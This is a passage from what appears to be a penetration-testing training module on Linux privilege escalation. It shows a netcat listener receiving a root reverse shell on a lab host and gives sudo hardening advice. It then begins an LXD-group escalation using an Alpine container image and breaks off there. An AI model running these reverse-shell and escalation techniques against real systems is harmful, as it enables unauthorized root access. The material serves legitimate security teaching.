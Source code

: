 We receive a root shell almost instantly.

```shell
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02

```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

|  |  |
| --- | --- |
| 1. | Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused). |
| 2. | Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation. |


# Privileged Groups

* * *

## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

```shell
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)

```

Unzip the Alpine image.

```shell
devops@NIX02:~$ unzip alpine.zip

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz
inflating: 64-bit Alpine/alpine.tar.gz.root
cd 64-bit\ Alpine/

```
